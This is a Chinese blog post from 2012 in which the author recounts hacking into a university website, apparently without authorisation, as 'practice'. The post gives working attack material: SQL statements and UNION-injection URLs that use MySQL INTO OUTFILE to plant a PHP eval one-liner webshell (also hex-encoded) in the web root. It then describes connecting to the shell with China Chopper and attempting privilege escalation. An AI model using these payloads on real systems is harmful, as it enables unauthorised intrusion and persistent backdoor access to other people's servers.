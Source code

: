 title: "mysql outfile getwebshell"
date: 2012-06-13 16:02:06
tags:
id: 57
comment: false
---

最近一直在找大学目标练手。也成功了不少。今天这个算是垂涎了许久吧。也算搞定了啊！
开始用各种神器去找注入，前两天一直也就没找到，主要是没有心情，这两天太热了，课也比较多！
今天晚上去打了两局台球心情还算可以吧，回来搞站也有心情了！但是在回来的路上确实有些倒霉，首先是下着大雨，遇到一对情侣；由于这穷学校没有路灯我只顾跑就把那个男的给撞了，男的没反应，女的发出了尖叫；男的瞬间大怒，我像孙子一样的给他们道歉才得以脱身。。。。。扯远了。。。。
还好找到3个，可惜只有1个可以使用，后来发现权限蛮高的，也算一点点运气吧 。 
用sqlmap看了下具有root权限,什么权限都有
找目录：
[![](http://lpcdma.com/wp-content/uploads/2012/06/20120512110411_857.jpg "lpcdma.com")](http://lpcdma.com/wp-content/uploads/2012/06/20120512110411_857.jpg)
```

Drop TABLE IF EXISTS temp;    //如果存在temp就删掉
Create TABLE temp(cmd text NOT NULL);    //建立temp表，里面就一个cmd字段
Insert INTO temp (cmd) VALUES(‘&lt;?php eval($_POST[cmd]);?&gt;’);   //把一句话木马插入到temp表
Select cmd from temp into outfile ‘E:\wwwroot\****\a.php’;   //服务是win的，查询temp表中的一句话并把结果导入到a.php
Drop TABLE IF EXISTS temp;   //删除temp(擦屁股o(∩_∩)o…)

```

[![](http://lpcdma.com/wp-content/uploads/2012/06/20120512101746_250.jpg "lpcdma.com")](http://lpcdma.com/wp-content/uploads/2012/06/20120512101746_250.jpg)
结果是不行的。
改手工了
```

http://xxx.edu.cn/***********=11 order by 4 还回正常，到5就。。。
http://xxx.edu.cn/***********=11 and 0=1 union select 1,2,3,4
http://xxx.edu.cn/***********=11 and 1=0 union select 1,0x3C3F706870206576616C28245F504F53545B636D645D293B3F3E,3,4 into outfile ‘E:\wwwroot\****\a.php’
&lt;br&gt;

```

[![](http://lpcdma.com/wp-content/uploads/2012/06/20120512103212_599.jpg "lpcdma.com")](http://lpcdma.com/wp-content/uploads/2012/06/20120512103212_599.jpg)
菜刀连接很成功,提权未成功。